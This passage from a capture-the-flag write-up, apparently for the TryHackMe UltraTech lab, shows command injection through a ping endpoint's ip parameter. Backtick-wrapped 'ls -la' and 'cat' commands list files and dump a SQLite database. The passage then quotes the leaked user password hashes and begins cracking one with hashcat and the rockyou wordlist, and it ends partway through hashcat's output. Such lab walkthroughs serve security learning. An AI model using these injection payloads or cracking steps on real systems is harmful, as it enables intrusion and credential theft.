 `2`

## Task 3 Let the fun begin

Now that you know which services are available, it's time to exploit them!

Did you find somewhere you could try to login? Great!

Quick and dirty login implementations usually goes with poor data management.

There must be something you can do to explore this machine more thoroughly..

1. There is a database lying around, what is its filename?

`http://10.10.185.130:8081/ping?ip=127.0.0.1%20`ls%20-la``

```
ping: utech.db.sqlite: Name or service not known 
```

`utech.db.sqlite`

2. What is the first user's password hash?

* [http://10.10.185.130:8081/ping?ip=127.0.0.1%20`cat%20utech.db.sqlite`](http://10.10.185.130:8081/ping?ip=127.0.0.1%20`cat%20utech.db.sqlite`)

```
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded 
```

`r00t f357a0c52799563c7c7b76c1e7543a32`

`admin 0d0ea5111e3c1def594c1684e3b9be84`

`f357a0c52799563c7c7b76c1e7543a32`

3. What is the password associated with this hash?

```
bibo318@parrot:~/CTFs/tryhackme/UltraTech$ hashcat f357a0c52799563c7c7b76c1e7543a32 /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
```